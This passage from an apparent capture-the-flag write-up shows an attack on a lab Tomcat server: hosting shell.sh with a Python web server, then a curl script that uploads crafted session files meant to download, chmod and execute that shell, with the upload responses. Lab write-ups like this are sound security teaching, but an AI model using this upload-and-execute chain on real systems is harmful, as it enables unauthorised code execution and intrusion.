 Now, we need to host the `shell.sh` file using python, we can use the standard command:

```python
python3 -m http.server
```

It's time to upload the files, we can use curl here, here's a script to automate it:

```bash
#!/bin/bash

TARGET_HOST="http://admin.certain-doom.thm:8080"
downloadFile="downloadFile.session"
chmodFile="chmodFile.session"
executeFile="executeFile.session"

curl "$TARGET_HOST/reports/upload" -F "uploadFile=@$downloadFile"
curl "$TARGET_HOST/reports/upload" -F "uploadFile=@$chmodFile"
curl "$TARGET_HOST/reports/upload" -F "uploadFile=@$executeFile"
```

We need to use the script on the same directory we have the files, we will get this:

```html
./auto.sh

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>Upload Result</title>
</head>

<body>
    <h2>File /usr/local/tomcat/temp/uploads/downloadFile.session has uploaded successfully!</h2>
</body>
</html>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>Upload Result</title>
</head>

<body>
    <h2>File /usr/local/tomcat/temp/uploads/chmodFile.session has uploaded successfully!</h2>
</body>
</html>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>Upload Result</title>
</head>

<body>
    <h2>File /usr/local/tomcat/temp/uploads/executeFile.session has uploaded successfully!</h2>
</body>
</html>
```
